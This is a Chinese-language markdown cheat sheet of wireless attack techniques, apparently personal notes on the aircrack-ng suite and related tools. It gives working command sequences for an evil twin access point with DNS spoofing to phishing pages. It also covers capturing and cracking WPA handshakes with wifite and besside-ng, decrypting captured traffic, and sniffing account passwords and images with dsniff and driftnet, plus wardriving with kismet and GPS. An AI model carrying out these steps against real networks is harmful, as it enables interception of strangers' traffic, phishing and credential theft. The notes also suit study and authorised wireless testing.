


# 补充
## 0x01 EVIL TWIN AP(邪恶双子)
+ 蹭网与被蹭网 
+ 北上广约20%的公共场所无线网络是伪造的

```
airmon-ng start wlan0

airbase-ng -a <AP mac> --essid "kifi" -c 11 wlan0mon
  
apt install bridge-utils  #安装网桥

brctl addbr Wifi-Bridge   

brctl addif Wifi-Bridge eth0  
                        
brctl addif Wifi-Bridge at0          
                
ifconfig eth0 0.0.0.0 up             
                 
ifconfig at0 0.0.0.0 up     
                          
ifconfig Wifi-Bridge 192.168.1.10 up     # 假设eth0原本获得的ip为192.168.1.10    
              
route add -net 0.0.0.0 netmask 0.0.0.0 gw 192.168.1.1

ifconfig
netstat -ar # 检查一下

echo 1 > /proc/sys/net/ipv4/ip_forward
```

利用
+ dns欺骗

```
dnspoof -i Wifi-Bridge -f dnsspoof.hosts

hosts内容类似
127.0.1.1	*.kali.com

# 之后可以启动Apache, 配置钓鱼页面
```


## 0x02 综合工具
### `wifite`
直接输入`wifite`, 之后可以自动
+ 发现wps
+ 爆破wps pin
+ 发现wpa
+ 使客户端重连, 抓取握手包
+ 密码字典暴力破解握手包


### `bessid-ng`
> 一键抓取特定AP握手包, 包含AP检测, 客户端踢开, 抓取握手包, 上传握手到到网站,在线破解握手包. 上传包在线破解网站: http://wpa.darkircop.org/, 抓取的握手包放在当前目录的 wpa.cap 和 wep.cap, 更多用于自动抓取自己周围的所有握手包.

```
Usage: besside-ng [options] <interface>

Options:

     -b <victim mac> : Victim BSSID
     -R <victim ap regex> : Victim ESSID regex
     -s <WPA server> : Upload wpa.cap for cracking
     -c       <chan> : chanlock
     -p       <pps>  : flood rate
     -W              : WPA only
     -v              : verbose, -vv for more, etc.
     -h              : This help screen
``` 

### `fern-wifi-cracker`
> 图形化集成工具

+ 网卡启动monitor模式
+ 检测AP
+ WEP破解
+ WPS破解
+ WPA破解等


### WiFi-Pumpkin 
> `3vilTwinAttacker`项目发展而来

安装
```
git clone https://github.com/P0cL4bs/WiFi-Pumpkin.git

cd WiFi-Pumpkin

./installer.sh --installY
```
大致功能如图

 

 ## 0x03 `AIRRACK-NG SUITE `其它工具
 ### `airdecap-ng`
 > 解码802.11, 查看数据包内容
+ open

```
airdecap-ng -b <bssid> <pcap file>
```

+ WEP
> 包中必须包含与AP建立关联关系
```
airdecap-ng -w <WEP key> -b <bssid>  <pcap file>
```

+ WPA
> 包中必须包含4步握手信息
```
airdecap-ng -p <pass> -b <AP MAC> -e <AP essid >  <pcap file>
```

### `AIRSERV-NG`
> 通过网络提供无线网卡服务器  
**注意**
+ 某些网卡不支持客户点/服务器模式
+ 某些防火墙会影响C/S间的通信

```
启动无线侦听
airmon-ng start wlan0

服务器端 
airserv-ng -p 3333 -d wlan0mon  # 不指定端口则默认端口为666

客户端
airodump-ng < remote_ip >:3333
```

### `AIRTUN-NG `
> 可以算是一个WiFi_IDS, 可以实时中继(需两个网卡,一个网卡不能同时收发)或抓取所有AP包, 然后再重放流量进行检测

```
WEP: airtun-ng -a <AP MAC> -w <SKA> wlan0mon

WPA: airtun-ng -a <AP MAC> -p <PSK> -e <ESSID> wlan0mon

然后:
ifconfig at0 up

利用:
airodump-ng wlan0mon --bssid <bssid> -c 6 -w ids
tcpreplay -ieth0 -M1000 tenda-02-dec.cap  | snort # 重放检查
driftnet -i at0    //抓取图片信息
dsniff -i at0     //抓取账号密码信息
```

**注意:**
- 必须抓住四步握手才能进行劫持
- 理论上支持多AP的wIDS,但2个AP以上时可靠性会下降

```
再开一个窗口
WPA: airtun-ng -a <AP MAC> -p <PSK> -e <ESSID> wlan0mon -w ids2

ifconfig at1 up

多AP不同信道时
airodump -c 1,11 wlan0mon
```

#### Repeate 
> WDS/Bridge                                                          
+ 扩展无线侦听的距离                                                  
+ 要求两块网卡都置入monitor模式   
+ 网卡的选择: 第一个侦听网卡灵敏度大，第二是发包网卡传输功率大    
                                
```
airtun-ng -a <AP MAC> --repeat --bssid <AP MAC> -i wlan0mon wlan2mon

wlan0mon: 收包的网卡                                                
wlan2mon: 发包的网卡 
                                               
-a: 发包的源地址                                                    
--bssid: 过滤只发指定源地址的包(可选)  
```    

### Replay
> 将抓取的CAP文件重放到指定网卡

```
airtun-ng -a <Source AP MAC> -r 1.cap <interface>
```

## 0x04 无线侦测
> 检测并记录AP相关信息, 甚至可以导入Google地图, 查看AP分布情况.

### `gpsd gpsd-clients`

```
apt-get install gpsd gpsd-clients

之后插入gps usb模块, 没有usb也可以尝试用蓝牙调用手机的GPS(YouTube 有教程)
dmesg #查看模块插入后映射到什么设备文件, 比如/dev/ttyUSB0
gpsd -n -N C4 /dev/ttyUSB0
```

### `kismet`

```
直接输入
kismet 

会自动记录
Kismet-*.alert
Kismet-*.gpsxml  #gps
Kismet-*.nettxt
Kismet-*.netxml
Kismet-*.pcapdump

alert:该文件包括所有的禁告信息
gpsxml:如果使用了GPS源,则相关的GPS数据保存该文件中
nettxt:包括所有收集的文件输出信息
netxml:包括所有的xml格式的数据
pcapdump:包括整个会话捕获的数据包

giskimet -x Kismet-20151126-18-42-55-1.netxml # 读取转化查看gps信息
giskismet -q "select * from wireless" -o ask.kml # ask.kml文件可以同Google earth 导入.
```

### `google-earth`

```
wget https://dl.google.com/dl/earth/client/current/google-earth-stable_current_amd64.deb

dpkg -i google-earth-stable_current_amd64.deb
apt-get -f install # 如果上一步失败, 则执行这个,再重试

google-earth-pro # 进入Google地球, 导入ask.kml文件.
```
别人的效果图.


## 0x05 EWSA
> Windows 下强大的图形化的可以利用GPU性能的握手包密码破解工具.
